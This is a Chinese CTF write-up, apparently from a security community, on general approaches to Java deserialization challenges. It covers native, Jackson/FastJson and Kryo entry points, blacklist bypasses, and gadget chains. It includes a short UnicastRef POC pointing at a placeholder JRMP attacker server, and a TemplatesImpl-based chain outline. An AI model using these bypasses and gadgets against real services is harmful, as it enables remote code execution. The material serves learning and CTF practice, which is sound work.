










# 浅析Java反序列化题目的一般思路-先知社区

> **来源**: https://xz.aliyun.com/news/17872  
> **文章ID**: 17872

---

# 前言

这段时间做了几道Java反序列化题目，发现很多题目都是类似的，并且可以通过一些非预期gadget打进去，就打算总结一下常见的题目类型以及各种解法，并提炼出一般性的思维方法。

# 正文

## 分析入口点

拿到题目，有附件最好。有些题目也并非是黑盒，可以通过路径穿越等方式把源码拉取下来，例如[网鼎杯 2020青龙组]FileJava。

题目比较常见的是Spring Boot框架。找到入口点，分析反序列化的具体方式。CTF中的Java反序列化一般是三种方式：

1. 原生反序列化
2. Jackson/FastJson反序列化
3. 框架自写的反序列化（Hessian2/Kryo）

### 原生反序列化入口点分析

以\*\*[MTCTF2022]easyjava\*\*为例：  


使用了自写的MyObjectInputStream类来处理反序列化，**一般来说都会重写resolveClass方法对黑名单类进行一次判断**：



这种黑名单判断是无法绕过的，其原理在于原生反序列化流程会创建一个desc（类描述符），其name属性是类的全限定名，resolveClass方法对desc里的name属性进行黑名单检测，这里的desc是我们无法自行修改的。



还有一种黑名单对String进行包名检测：



很好绕过，P神的[这篇文章](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)有详细分析。

话说回来，对于resolveClass方法对desc.name进行黑名单检测，一般的思路是如何的呢？

1. 最好是0day，但是常规来说也没人专门捏着0day往这里砸吧；
2. 其次是黑名单里没写的类，比如UncaistRef或者其外面的代理类（这个类的优点我下面会讲）；
3. 再者是打二次反序列化，不走题目给的resolveClass逻辑······但是往往一些比较常用的二次反序列化类（Signedobject、RmiConnector）也放不出来，自己多积累几个。
4. 最后就是看看题目给的一些类。

上面所讲的四个思路是通用的，并且在下文都会用到。

### Jackson/FastJson反序列化

部分CTF题目有用到这种反序列化，比如**Bugku-CTF-Java Fastjson Unserialize**、**[VNCTF2021]realezjvav**等。但是原理比较简单，无非起一个远程服务，然后反序列化**com.sun.rowset.JdbcRowSetImpl**等类触发一个RMI或者LDAP请求。这里就不做赘叙。

### 框架自写的反序列化（Hessian2/Kryo）

无论是Hessian2还是Kryo，其原理都是在反序列化过程中，如果反序列化对象是Map类，都会调用对应的put方法。

下面以[CISCN 2023 西南]seaclouds为例，该题采用kryo反序列化。在赛场是0解，因为赛制是断网，凭借个人调试发现该利用点是比较有难度的。

**这种框架自写的反序列化，我们的侧重点是分析各种类的反序列化流程，冀以找到自动调用的方法**，比如kryo反序列化HashMap类，使用MapSerializer触发put方法：



## 构造gadget

构造gadget是一门大学问，想要能力有所提高，就应该尽可能地尝试多种链子。

### 构造之前

不要急着构造链子，先看看题目提供了哪些依赖。

有些题目给的依赖多一点，比如[MTCTF2022]easyjava：（只给出常见的可以利用的依赖）

```
- "BOOT-INF/lib/jackson-databind-2.13.3.jar"
- "BOOT-INF/lib/jackson-annotations-2.13.3.jar"
- "BOOT-INF/lib/jackson-core-2.13.3.jar"
- "BOOT-INF/lib/tomcat-embed-core-9.0.65.jar"
- "BOOT-INF/lib/shiro-core-1.5.2.jar"
- "BOOT-INF/lib/commons-beanutils-1.9.4.jar"
- "BOOT-INF/lib/commons-collections-3.2.2.jar"
- "BOOT-INF/lib/hibernate-core-4.3.8.Final.jar"
- "BOOT-INF/lib/hibernate-commons-annotations-4.0.5.Final.jar"
- "BOOT-INF/lib/javassist-3.18.1-GA.jar"
```

有些题目给的就很少了，比如\*\*[CISCN 2023]deserbug\*\*：


commons-collections-3.2.2，真的令人难评。该版本对一些敏感类进行了一个检测，具体参考[这篇文章](https://www.freebuf.com/articles/web/388411.html)

因为deserbug这道题没有给出设置系统属性的依赖，所以我们即使使用UnicastRef打到JRMP服务端，也利用不了cc3等链子。

遇到这种情况，就该看看题目所给的类对我们有没有帮助。deserbug给了Myexepct类，危险方法如下：



那很好说了，TrAXFilter类在实例化过程中会调用TemplatesImpl.newTransformer方法：



要注意的是，Myexpect类的typeparam属性得是`new Class[]{Templates.class}`。

有些题目是只允许白名单，比如\*\*[羊城杯 2020]a\_piece\_of\_java\*\*：



那就只能老老实实利用题目给的类了。

### 如何构造

现在，我们知道入口点和触发点了，但是如何构造链子呢？

#### UnicastRef

我比较喜欢利用UnicastRef类，它有以下几个优点：

1. JDK自带的，对依赖没有要求
2. 该类有readExternal方法，相当于readObject方法，无需为寻找调用链烦恼
3. jrmp服务端响应的数据走系统的反序列化流程而不是题目重写的MyObjectInpuct()
4. 黑名单禁止该类？我有更多的方法（下文讲）。

缺点：

1. 本质上是打一个JRMP请求，不能断网
2. 黑名单常客

构造POC也很简单：

```
public static UnicastRef getRef() throws Exception {
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("xxx.xxx.xxx.xxx", 13999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        return ref;
    }
```

上面说了，如果把UnicastRef放到黑名单怎么办，具体原理可以参考笔者blog，看Lab7：[JavaDeserializeLabs](https://blog.hackpax.top/JavaDeserializeLabs/#0x07-Lab7)

简而言之，我至少有这么多个的代理类可以选：



实际上反制手段也不难，把RemoteStub类甚至RemoteObject类给写入黑名单就可以了。

#### 常用依赖

不看UnicastRef了，想想别的办法。那就只能看依赖了。现在很多题目都使用Spring Boot，以其为例。

Spring Boot自带Jackson，Jackson本身存在一些类可以用于原生反序列化。再说，Spinrg Boot本身配合Jackson，就可以打出好几个链子。

不说yso给的Spring1和2，还有这一条：

```
/**
 * hashMap#put()->
 * HotSwappableTargetSource#equals()->
 * Xstring#equals()->
 * BaseJsonNode#toString()->
 * templatesImpl#getOutputProperties()
 */
```

然后这位师傅也发现了一条只依赖Spring-aop的：[在spring-aop中挖掘新反序列化gadget-chain](https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ)

#### Java Chains

P神等大佬写的工具，内置了很多链子，肯定有大家没了解过的，多翻翻：



这个工具还有JNDI、JRMP、Fake Mysql等的服务端和payload，真的是神器！项目地址：<https://java-chains.vulhub.org/>

# 结语

多做题，发现这些题目其实都是有规律的，先发现入口点和限制，再根据已知依赖打gadget，本质上还是要多见多积累。
